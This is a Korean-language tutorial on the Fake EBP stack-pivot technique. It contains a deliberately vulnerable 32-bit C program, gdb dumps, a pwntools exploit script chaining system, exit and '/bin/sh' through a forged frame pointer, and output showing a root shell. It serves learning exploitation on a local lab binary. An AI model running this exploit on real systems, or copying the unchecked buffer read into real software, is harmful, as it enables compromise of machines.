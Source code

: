 ## Concept

가짜 스택 프레임 포인터(Stack Frame Pointer)를 만들어 프로그램의 실행 흐름을 변경한다.(Fake EBP)  
Return Address 영역 까지만 덮어쓸 수 있을 경우 사용한다.  

#### **LEAVE**
1. EBP 레지스터에 저장된 값을 ESP에 저장
1. ESP 레지스터가 가리키는 Stack 영역에 값을 EBP 레지스터에 저장

#### **RET**
1. EBP 레지스터가 가리키는 Stack 영역의 값을 RIP 레지스터에 저장
1. JMP 명령을 통해 RIP에 저장된 영역으로 이동

```
; LEAVE
mov esp,ebp
pop ebp

; RET
pop eip
jmp eip
``` 

## **Proof of Concept**  

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o ff ff.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 70);
}
  
void main(){
    vuln();
}
```

"A"66+"B"4 입력 시 vuln() 함수의 Stack Frame과 Return address가 변조된다.

```
gdb-peda$ x/24wx $ebp
0xbfe98a78:	0x41414141	0x42424242	0xb7f233dc	0xbfe98aa0
```

변조된 메모리 구조.

```
gdb-peda$ x/24wx 0xbfc64e3a(&buf)
0xbfc64e3a:	0x41414141 <- dummy 0x42424242 <- &system 0x43434343 <- &exit 0x44444444 <- &/bin/sh

gdb-peda$ x/24 $ebp
0xbfc64e78:	0x46464646 <- &buf	0x47474747 <- leave	0xb7f243dc	0xbfc64ea0
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
import sys

p=process("./ff")
buf = int(p.recvline().split(' ')[3],16)
printf = int(p.recvline().split(' ')[3],16)

print('Laek buf    : ' + str(hex(buf)))
print('Laek printf : ' + str(hex(printf)))

libBase = printf - 0x4a670
system = libBase + 0x3bda0
exit = libBase + 0x2f9d0
binsh = libBase + 0x15ca0b
leave = 0x08048571

print('libBase : ' + str(hex(libBase)))
print('system  : ' + str(hex(system)))
print('exit    : ' + str(hex(exit)))
print('/bin/sh : ' + str(hex(binsh)))

exploit = "AAAA" + p32(system) + p32(exit) + p32(binsh) + "A"*46 + p32(buf) + p32(leave)
p.sendline(exploit)

p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/fakeebp# python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './fakeebp': pid 2319
Laek buf    : 0xbfd77fea
Laek printf : 0xb7e02670

libBase : 0xb7db8000
system  : 0xb7df3da0
exit    : 0xb7de79d0
/bin/sh : 0xb7f14a0b
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
[https://www.lazenca.net/pages/viewpage.action?pageId=12189944](https://www.lazenca.net/pages/viewpage.action?pageId=12189944)

